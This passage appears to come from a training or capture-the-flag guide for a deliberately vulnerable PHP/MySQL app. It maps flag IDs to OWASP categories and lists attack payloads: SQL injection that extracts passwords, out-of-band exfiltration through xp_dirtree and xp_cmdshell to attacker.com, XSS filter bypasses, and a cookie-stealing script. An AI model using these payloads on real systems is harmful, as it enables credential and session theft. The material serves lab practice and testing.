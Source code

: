 **A03:2021 - Injection**
- FLAG-SQL-001 through FLAG-SQL-011
- FLAG-ADV-001, FLAG-ADV-002

**A04:2021 - Insecure Design**
- FLAG-LOGIC-001 through FLAG-LOGIC-010

**A05:2021 - Security Misconfiguration**
- FLAG-CONFIG-001 through FLAG-CONFIG-011

**A06:2021 - Vulnerable Components**
- Deprecated MySQL functions
- Old PHP version

**A07:2021 - Authentication Failures**
- FLAG-AUTH-001 through FLAG-AUTH-004

**A08:2021 - Software and Data Integrity Failures**
- FLAG-CSRF-001, FLAG-CSRF-002, FLAG-CSRF-003

**A09:2021 - Security Logging Failures**
- FLAG-AUDIT-001

**A10:2021 - Server-Side Request Forgery**
- Check for SSRF in file operations

---

## 🔬 Advanced Techniques

### SQL Injection - Error-Based
```sql
-- Generate error to reveal info
' AND 1=CONVERT(int,(SELECT @@version))--
' AND 1=CONVERT(int,(SELECT user()))--

-- Extract using error
' AND 1=CONVERT(int,(SELECT Password FROM person_info LIMIT 1))--
```

### SQL Injection - Out-of-Band
```sql
-- DNS exfiltration (if DNS queries allowed)
'; EXEC xp_dirtree '\\'+@@version+'.attacker.com\share'--

-- HTTP exfiltration
'; EXEC master..xp_cmdshell 'certutil -urlcache -split -f http://attacker.com/x'--
```

### XSS - Advanced Payloads
```html
<!-- Bypass filters -->
<sCrIpT>alert(1)</sCrIpT>
<script>al\u0065rt(1)</script>
<script>eval(atob('YWxlcnQoMSk='))</script>

<!-- Polyglot -->
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

<!-- Cookie theft -->
<script>
new Image().src='http://attacker.com/steal?c='+btoa(document.cookie);
</script>

<!-- Keylogger -->
<script>
```